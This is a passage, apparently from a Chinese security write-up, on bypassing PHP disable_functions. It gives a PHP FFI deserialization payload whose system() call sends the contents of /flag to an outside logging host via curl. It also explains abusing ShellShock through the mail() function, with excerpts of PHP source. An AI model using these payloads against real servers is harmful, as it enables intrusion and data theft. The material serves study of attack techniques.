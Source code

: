 利用 index.php 的 eval 来限制执行反序列化操作，然后触发 run() 函数来调用 FFI::cdef 声明 C 中的 system() 函数，然后通过 FFI 变量调用已声明的 system() 来执行任意命令，因为可能有特殊编码这里就进行 base64 加密传送回来. Payload（URL编码后发送）：

```php
$a=unserialize('C:1:"A":89:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:26:"int system(char *command);";\}\}');$a->ret->system('curl xx.ceye.io/?c=`cat /flag|base64`');
```


## 0x05 Bash ShellShock

这种利用方法的前提是目标 OS 存在 Bash破壳（CVE-2014-6271）漏洞，该漏洞的具体介绍可参考: [破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之一](https://www.freebuf.com/news/48331.html)

**Bash 破壳漏洞成因**：目前的 Bash 使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以 `(){` 开头定义的环境变量在命令 ENV 中解析成函数后，Bash 执行并未退出，而是继续解析并执行 shell 命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

![](/assets/images/move/2019-11-20-08-11-20.png)

mail.c 中 mail() 函数的第五个参数 extra_cmd:

```c++
if (extra_cmd != NULL) {
	spprintf(&sendmail_cmd, 0,"%s %s", sendmail_path, extra_cmd);
} else {
	sendmail_cmd = sendmail_path;
}
```

当 extra_cmd（用户传入的一些额外参数）存在的时候，调用 spprintf() 将 sendmail_path 和 extra_cmd 组合成真正执行的命令行 sendmail_cmd。 然后将sendmail_cmd 丢给 popen() 执行：

```c++
#ifdef PHP_WIN32
	sendmail = popen_ex(sendmail_cmd,"wb", NULL, NULL TSRMLS_CC);
#else
    /* Since popen() doesn't indicate if theinternal fork() doesn't work
    *(e.g. the shell can't be executed) we explicitly set it to 0 to be
    *sure we don't catch any older errno value. */
    errno = 0;
    sendmail = popen(sendmail_cmd,"w");
#endif
```
如果系统默认 sh 是 bash，popen() 会派生 bash 进程，而我们刚才提到的 CVE-2014-6271 漏洞，直接就导致我们可以利用 mail() 函数执行任意命令，绕过disable_functions 的限制。
